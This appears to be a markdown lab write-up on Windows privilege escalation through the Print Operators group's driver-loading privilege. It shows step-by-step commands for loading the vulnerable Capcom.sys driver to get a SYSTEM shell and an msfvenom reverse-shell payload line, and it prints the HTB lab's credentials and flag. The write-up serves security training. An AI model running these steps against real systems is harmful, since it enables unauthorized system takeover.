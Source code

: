 # Print Operators Privilege Escalation

## 🎯 Overview

**Print Operators** group grants **SeLoadDriverPrivilege**, allowing members to load device drivers. This privilege can be exploited to load malicious drivers like **Capcom.sys** for **SYSTEM privilege escalation**.

## 🔑 Key Privileges & Capabilities

```cmd
# Print Operators privileges:
SeLoadDriverPrivilege         # Load and unload device drivers
SeShutdownPrivilege           # Shut down Domain Controller
# Plus: manage printers, log on locally to DC
```

## 🔧 Driver Loading Exploitation

### Privilege Verification
```cmd
# Check privileges (may need UAC bypass first)
whoami /priv

# Expected output:
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
```

### Capcom.sys Driver Attack

#### 1. Registry Configuration
```cmd
# Add driver reference to registry
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

# NT Object Path syntax: \??\ for driver location
```

#### 2. Enable Privilege & Load Driver
```cmd
# Method A: Use EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.exe

# Expected output:
SeLoadDriverPrivilege            Enabled
NTSTATUS: 00000000, WinError: 0

# Method B: Automated with EoPLoadDriver
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

#### 3. Exploit Driver for SYSTEM
```cmd
# Execute ExploitCapcom.exe
ExploitCapcom.exe

# Expected result:
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Credentials**: `printsvc:HTB_@cademy_stdnt!`
- **Access Method**: xfreerdp
- **Tools Location**: `C:\Tools\` and `C:\Tools\ExploitCapcom\`
- **Objective**: Escalate to SYSTEM and retrieve flag from Administrator desktop
- **Flag**: `Pr1nt_0p3rat0rs_ftw!`

### Detailed Walkthrough

#### 1. Connect via RDP
```bash
# Connect to target using xfreerdp
xfreerdp /v:TARGET_IP /u:printsvc /p:HTB_@cademy_stdnt!

# Example output:
[16:18:25:879] [4321:4323] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[16:18:25:880] [4321:4323] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
```

#### 2. Open Elevated Command Prompt
```cmd
# Right-click Command Prompt → "Run as administrator"
# Supply credentials: printsvc:HTB_@cademy_stdnt! when prompted
```

#### 3. Navigate to Tools and Execute EoPLoadDriver
```cmd
cd C:\Tools
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

# Expected output:
RegCreateKeyEx failed: 0x0
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: 00000000, WinError: 0
```

#### 4. Navigate to ExploitCapcom Directory
```cmd
cd ExploitCapcom
ExploitCapcom.exe

# Expected output:
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000070
[*] Shellcode was placed at 0000016476420008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

#### 5. Retrieve Flag from SYSTEM Shell
```cmd
type C:\Users\Administrator\Desktop\flag.txt

# Flag: Pr1nt_0p3rat0rs_ftw!
```

## 🔄 Alternative Methods

### Non-GUI Exploitation
```c
// Modify ExploitCapcom.cpp line 292 for reverse shell:
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");

// Generate reverse shell with msfvenom:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o revshell.exe
```

### Automated Approach
```cmd
# Single command with EoPLoadDriver
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

# Then exploit with ExploitCapcom.exe
```

## 🧹 Cleanup

```cmd
# Remove registry key
reg delete HKCU\System\CurrentControlSet\Capcom

# Confirm deletion:
Permanently delete the registry key? Yes
The operation completed successfully.
```

## ⚠️ Limitations

### Windows Version Restrictions
```cmd
# MITIGATED: Windows 10 Version 1803+
# SeLoadDriverPrivilege no longer exploitable
# Cannot reference HKEY_CURRENT_USER registry keys
```

### Detection Indicators
```cmd
# Monitor for:
- Driver loading events
- Registry modifications under CurrentControlSet
- Capcom.sys driver presence
- Privilege escalation to SYSTEM
```

## 💡 Key Takeaways

1. **Print Operators** group provides **SeLoadDriverPrivilege**
2. **Capcom.sys driver** enables SYSTEM privilege escalation
3. **Registry configuration** required for driver loading
4. **Multiple tools available** for automation
5. **Mitigated** on Windows 10 1803+

---

*Print Operators group exploitation relies on vulnerable driver loading capabilities, effective primarily on legacy Windows systems.* 